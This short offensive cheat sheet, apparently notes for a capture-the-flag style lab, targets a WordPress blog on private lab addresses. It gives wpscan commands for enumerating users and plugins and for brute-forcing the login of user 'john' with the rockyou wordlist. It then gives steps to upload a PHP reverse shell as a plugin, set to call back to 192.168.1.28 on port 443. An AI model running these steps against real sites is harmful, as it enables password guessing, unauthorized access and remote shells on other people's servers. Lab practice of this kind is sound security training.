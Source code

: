 _Wordpress commands_

#1 - Enumerating users #
wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -e u\

#2 - Bruteforce wp login page #
wpscan --disable-tls-checks --url https://192.168.1.6:12380/blogblog -P /usr/share/wordlists/rockyou.txt --usernames john

#3 - Enumerating wordpress users and plugins #
wpscan --disable-tls-checks --url https://192.168.1.30:12380/blogblog/ --plugin-agressive (To be checked)


_Reverse shell exploits_
#4 - Exploit Method 1#

If the admin login of wordpress is available, upload the famous php-reverse shell.php as plugin.
Download and Edit the following file content
$ip = '192.168.1.28';  // CHANGE THIS
$port = 443;           // CHANGE THIS

Upload the php file. The file will be available in the following location
https://192.168.1.30:12380/blogblog/wp-content/uploads/


